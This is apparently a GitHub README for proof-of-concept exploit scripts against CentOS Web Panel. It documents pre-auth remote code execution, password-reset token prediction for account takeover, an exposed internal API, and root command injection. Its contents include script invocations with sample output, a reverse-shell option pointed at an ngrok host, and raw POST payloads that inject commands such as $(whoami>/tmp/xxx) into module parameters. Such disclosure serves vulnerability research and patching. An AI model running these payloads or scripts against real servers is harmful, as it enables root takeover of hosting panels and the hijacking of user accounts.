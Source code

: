 # CentOS-WebPanel
Proof of concepts scripts for vulnerabilities in CentOS Web Panel


## Pre Auth RCE

- WebPanel Versions <= 0.9.8.1120

It is possible to gain Remote Code Execution as root without any privlidges. This exploit chains a Local File Inclusion Vulnerability with a Command Injection vulnerability. 

### Example

```
python3 pre_auth_rce.py --target "127.0.0.1" --command "sleep 15"

```

You can optionally provide a Port Number and Local IP address to trigger a reverse shell

## Account Takeover

The Password Reset process uses predictable data to generate the reset token. If you know a users username and email address it is possible to reset any user account. 

This process does not work for the `root` account and will trigger a password reset email bieng sent to the target email address. 

### Example

```
python3 password_reset.py --target "<targetip>" --username "random" --email_address "my@email.com" --password "RandomPassword"
[+] Sending Reset Request to Target
  [-] Got Date 2022-01-31 14:47:34 from response
  [-] Generating Reset Token with username, email and reset token
  [*] Token: 681bb70c8452b33f9d7b6e319c20727b
[+] Confirming Reset Token
[+] Sending New Password with Reset Token
[*] Password has been set to "RandomPassword" for username "random"
```

## Internal API

The webpanel uses an internal API that is not protected from access. Any user account with the ability to host files via the FileManager can access this API. 

This API exposes many fucntions that include listing, modifying and creating accounts. 
An example `internal_api.php` file can be uploaded and accessed from a browser to demonstrate some of the exposed capabilities. 

## Run Command as root (User Login)

A command injection vulnerability exists in the user login flows. By injecting data in to the `userlang` parameter we can gain code execution as root. 
This requires a valid username and password but can be chained with the account takeover listed above. 

### Example

```
python3 user_auth_rce.py --target "<targetip>" --username "random" --password "RandomPassword" --command "sleep 5"
```

If `lhost` and `lport` are provided the exploit script will attempt to run a reverse shell that will connect as root to a netcat listener. 

```
python3 user_auth_rce.py --target "<targetip>" --username "random" --password "RandomPassword" --lhost "4.tcp.eu.ngrok.io" --lport 13921
```

## Run Command as root (User Modules)

- WebPanel Versions <= 0.9.8.1124

Using this collection of vulnearbilitues it is possible for a standard user to gain code exection as root by injecting commands in to POST paramaters for a range of modules. 

This exploit requires existing user credentials, this can be chained with the Account Takeover vulnerability listed above. 

### Example

```
python3 priv_esc_module_rce.py --target "<targetip>" --username "random" --password "RandomPassword" --command '`sleep 15`' --module 'dns_zone_editor' 
[+] Logging in to target with username random
  [-] Auth Successful
  [-] Selecting Module dns_zone_editor
  [-] Attempting to trigger RCE
[*] Command probably executed
```

### Modules

There are several vulnerable modules 

1. Adds a new DNS record with a command injection in the name field.

`[POST] /index.php?module=mysql_manager&acc=`optimizerdb`
`[DATA] namereg=touch /tmp/hello&domain=test.example.com&cachereg=1&valuereg="aGVsbG8="&reg=TXT`

2. Optimize database

`[POST] /index.php?module=mysql_manager&acc=`optimizerdb`
`[DATA] db=test_hello$(whoami>/tmp/xxx)`

3. Disk usage

`[POST] /index.php?module=disk_usage&acc=load_directory`
`[DATA] folder_name='/home/<username>/$(id>/tmp/id)'`

4. SSL Certificate Info

`[POST] /index.php?module=letsencrypt&acc=infomodal`
`[DATA] domain=test.example.com$(whoami>/tmp/www)&type=info`

5. Error log viewer

`[POST] index.php?module=error_log&acc=select`
`[DATA] domain=test.example.com&tipe=access&numline=20&op=select&textsearch=howdy$(id>/tmp/howdy)`